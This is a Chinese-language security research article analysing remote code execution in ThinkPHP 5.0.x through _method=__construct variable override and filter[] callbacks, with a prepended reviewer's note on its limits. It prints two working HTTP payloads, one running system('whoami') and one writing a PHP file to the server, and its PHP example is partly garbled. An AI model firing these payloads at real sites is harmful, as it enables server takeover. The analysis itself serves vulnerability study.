## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：标题5.0.0–5.0.18，实际5.0.5_full+PHP5.4.45 Windows；第二链需captcha及旧PHP静态调用语义

代码与实验材料：206行全文，system及set_error_handler/self::path/Php.display变体，结果依图

来源证据范围：Panacea/Gcow署名，参考两条为同一CSDN链接

- **适用与权限边界（1）**：范围外推与触发条件不全；依据：只列5.0.5环境，未解释5.0.13后debug/路由变化，也未证5.0.18边界。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **来源与引用处置（2）**：静态调用解释不能推广至现代PHP；依据：::调用非静态方法的旧PHP表现需限定版本，示例本身有this并报错，不是通用安全规则。保留这部分来源材料并与技术结论分开；其引用或宣传内容不能补足本文漏洞的证据。

- **结论使用边界（3）**：代码抽取及请求不完整；依据：People示例&lt;?phpclass和转义大括号破损；第二payload只表单体，captcha路径仅叙述中出现。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **证据待核（4）**：来源去重；依据：参考链接完全重复。保留原引用、截图位置和实验叙述；本项所缺材料未被补造，截图存在或作者宣称成功都不等于已核验其内容。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Thinkphp5-0-0-5-0-18 RCE 分析

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/qI10_Wtc1wrcNvAP_MBURQ)

Thinkphp5.0.0-5.0.18 RCE 分析
===========================

```
1.本文一共1732个字 26张图 预计阅读时间15分钟2.本文作者Panacea 属于Gcow安全团队复眼小组 未经过许可禁止转载3.本篇文章主要分析了Thinkphp5.0.0-5.0.18RCE情况4.本篇文章十分适合漏洞安全研究人员进行交流学习5.若文章中存在说得不清楚或者错误的地方 欢迎师傅到公众号后台留言中指出 感激不尽
```

0x00. 前言
--------

本篇文章基于`thinkphp5.*`框架，分析两种 payload 的构成以及执行流程

### 准备

Windows+phpstudy

tp 版本：thinkphp_5.0.5_full

php 版本：5.4.45

phpstorm+xdebug

0x01.Payload1
-------------

### 开始分析

漏洞代码位于：`thinkphp/library/think/Request.php`

首先放上 payload：

> s=whoami&_method=__construct&method=post&filter[]=system

 图 1

`method`方法主要用来判断请求方式，首先分析一下这段代码的逻辑：通过`$_SERVER`和`server`方法获取请求类型，如果不存在`method`变量值，那么就用表单请求类型伪装变量覆盖`method`的值，那么就可以利用这点调用其他函数，预定义里面`method`为`false`，那么就会直接走下一步的是否存在表单覆盖变量

图 2

从`get`方法中获取`var_method`的值，值为`_method`

图 3

在`config.php`已经有默认值，但我们构造的 payload 里面传值`_method=__construct`就是变量覆盖，因此下一步会走到`__construct`方法

```
// 表单请求类型伪装变量    'var_method'             => '_method',
```

继续往下跟代码，来到`__construct`构造方法，将数组`option`进行遍历操作，如果`option`的键名为该属性的话，则将该同名的属性赋值给 **\$option** 的键值，如果`filter`为空的空，就调用默认的`default_filter`值

图 4

filter 方法：

```
public function filter($filter = null)    {        if (is_null($filter)) {            return $this->filter;        } else {            $this->filter = $filter;        }    }
```

而默认的过滤方法为空

```
// 默认全局过滤方法 用逗号分隔多个    'default_filter'         => '',
```

在构造函数里面走完 filter 之后会走`input`方法，继续跟进

图 5

继续往下跟，这里的`method`已经为`post`方法，所以进入`param`方法里的`post`是直接`break`的

图 6

下一步进入`filtervalue`方法中，可以看到我们要传入的值已经全部传进了，`call_user_func()`函数将我们传入的 **\$filter=system** 作为回调函数调用，也就达到了 RCE 的目的

图 7 图 8 图 9

0x02.Payload2
-------------

### 前提

该利用的重点在于在一定条件下可以使用:: 来调用非静态方法

首先我们需要了解静态属性和静态方法是如何调用的，静态属性一般使用 **self::** 进行调用，但是在该篇博客上面使用了`::`的骚操作，用`::`调用非静态方法

```
<?phpclass People{    static public $name = "pana";    public $height = 170;    static public function output(){        //静态方法调用静态属性使用self        print self::$name."<br>";        //静态方法调用非静态属性（普通方法）需要先实例化对象        $t = new People() ;        print $t -> height."<br>";    }    public function say(){        //普通方法调用静态属性使用self        print self::$name."<br>";        //普通方法调用普通属性使用$this        print $this -> height."<br>";    \}\}$pa = new People();$pa -> output();$pa -> say();//可以使用::调用普通方法$pan = People::say();
```

可以看到最后的输出，仍然输出了`name`的值，但是却没有输出`height`的值

图 10

原因在于: php 里面使用双冒号调用方法或者属性时候有两种情况：

直接使用:: 调用静态方法或者属性

:: 调用普通方法时，需要该方法内部没有调用非静态的方法或者变量，也就是没有使用`$this`，这也就是为什么输出了`name`的值而没有输出`height`

了解上面这些，我们就可以开始下面的分析

0x03. 分析
--------

先放上流程图（本人比较菜鸡 所以只能用这种方法记录下来流程）

图 11

首先放上 payload

```
path=<?php file_put_contents('ccc.php','<?php phpinfo();?>'); ?>&_method=__construct&filter[]=set_error_handler&filter[]=self::path&filter[]=\think\view\driver\Php::Display&method=GET
```

### payload 的分析

使用`file_put_contents()`写入，使用变量覆盖将`_method`的值设置为`_construct`，这里的`set_error_handler`是设置用户自定义的错误处理程序，能够绕过标准的 php 错误处理程序，接下来就是调用 **\think\view\driver\Php** 下面的`Display`方法，因为我们要利用里面的

```
eval('?>' . $content);
```

完成 RCE 的目的

图 12

虽然会报错，但是不影响写入

图 13

首先从 App.php 开始，在 routeCheck 方法处打断点

```
public static function routeCheck($request, array $config){    $path   = $request->path();    $depr   = $config['pathinfo_depr'];    $result = false;    // 路由检测    $check = !is_null(self::$routeCheck) ? self::$routeCheck : $config['url_route_on'];    if ($check) {        // 开启路由        if (is_file(RUNTIME_PATH . 'route.php')) {            // 读取路由缓存            $rules = include RUNTIME_PATH . 'route.php';            if (is_array($rules)) {                Route::rules($rules);            }        } else {            $files = $config['route_config_file'];            foreach ($files as $file) {                if (is_file(CONF_PATH . $file . CONF_EXT)) {                    // 导入路由配置                    $rules = include CONF_PATH . $file . CONF_EXT;                    if (is_array($rules)) {                        Route::import($rules);                    }                }            }        }
```

这一步主要是获取`$path`的值，也就是我们要走的路由`captcha`

图 14

继续往下走，$result = Route::check($request, $path, $depr, $config['url_domain_deploy']);，跟进`check`方法，这里面的重点就是获取`method`的值，`$request->method()`

图 15

这里是调用`var_method`，因为我们传入了`_method=__construct`，也就是变量覆盖，这些步骤和上面的几乎一样

图 16

那下一步继续跟进`__construct`，走完`construct`函数后，可以看到大部分的值都是我们希望传进去的，这时`method`的值为 GET，也就是为什么 payload 里面要传 GET 的原因

图 17

下一步要获取当前请求类型的路由规则

```
$rules = self::$rules[$method];
```

可以看到这里的`rule`和`route`的值都发生了改变，路由值为 **\think\captcha\CaptchaController@index**

图 18

接下来跟进`routeCheck()`方法，走完这个方法后，返回`result`值

图 19

接下来进入`dispatch`方法

图 20 图 21

接下来进入`param`方法，合并请求参数和 url 地址栏的参数

```
$this->param = array_merge($this->get(false), $vars, $this->route(false));
```

图 22

然后进入`get`方法，继续跟进`input`方法

图 23 图 24

然后就会回到`filterValue`方法执行任意方法

图 25 图 26

0x04. 参考文章：
-----------

https://y4tacker.blog.csdn.net/article/details/115893304

https://y4tacker.blog.csdn.net/article/details/115893304

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
